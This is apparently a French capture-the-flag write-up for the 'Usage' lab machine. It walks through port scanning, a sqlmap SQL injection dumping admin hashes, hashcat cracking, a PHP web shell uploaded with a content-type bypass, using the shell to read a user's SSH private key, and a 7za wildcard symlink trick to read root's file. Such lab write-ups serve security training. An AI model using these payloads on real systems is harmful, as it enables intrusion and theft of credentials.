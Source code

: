   # Usage

	echo "10.10.11.18 usage.htb" >> /etc/hosts
    echo "10.10.11.18 admin.usage.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.18 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.18 -oN nmap.txt
	feroxbuster --silent -u http://usage.htb
	
Scans classiques.

    PORT      STATE    SERVICE  VERSION
    22/tcp    open     ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    80/tcp    open     http     nginx 1.18.0 (Ubuntu)


Simple page de login avec possibilité de s'enregistrer sur le site et fonctionnalité de reset de mot de passe.

Injection SQL dans le formulaire de reset de mot de passe : 

    sqlmap -r req.txt --level 5 --risk 3 -p email --batch --dump-all --threads 10
    
    sqlmap -r req.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump --threads 10

Cassage du hash de l'administrateur : 

    hashid -m '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2'
    hashcat -m 3200 '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2' --force

On peut se connecter au panel d'administration du site.

Upload d'images possible sur http://admin.usage.htb/admin/auth/setting et les fichiers arrivent dans http://admin.usage.htb/uploads/images/FICHIER


Simble upload de webshell avec bypass sur Burp : 

    ------WebKitFormBoundarycrbfVBn5PbxQLWYs

    Content-Disposition: form-data; name="avatar"; filename="image.php"

    Content-Type: application/php

    <?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>


L'exécution de commandes fonctionne bien : 

    http://admin.usage.htb/uploads/images/image.php?cmd=id


Récupération de la clé SSH de l'utilisateur "dash" :

    http://admin.usage.htb/uploads/images/shell.php?cmd=cat%20%2Fhome%2Fdash%2F.ssh%2Fid_rsa

	ssh dash@10.10.11.18 -i id_rsa
	cat user.txt	 

## Pivoting

Mot de passe en clair dans le dossier :

    ls
    cat .monitrc
    su xander

## Élévation de privilèges

	sudo -l
	
> (ALL : ALL) NOPASSWD: /usr/bin/usage_management

    strings /usr/bin/usage_management

On voit la ligne suivante : 

  > /usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *

Voir : https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z

    cd /var/www/html
    touch @test; ln -sf /root/root.txt test
    sudo /usr/bin/usage_management
